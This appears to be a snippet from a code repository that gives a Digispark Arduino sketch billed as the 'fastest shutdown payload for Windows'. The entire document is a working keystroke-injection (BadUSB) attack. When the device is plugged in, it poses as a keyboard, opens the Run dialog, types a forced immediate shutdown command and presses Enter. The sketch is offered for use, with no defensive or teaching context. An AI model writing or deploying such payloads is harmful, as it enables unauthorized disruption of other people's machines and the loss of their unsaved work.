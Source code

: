 Fastest shutdown payload for Windows

(Runs only once)

  #include "DigiKeyboard.h"
  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(150);
    DigiKeyboard.print("shutdown -s -t 00");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
  }

  void loop() {
    //empty
  }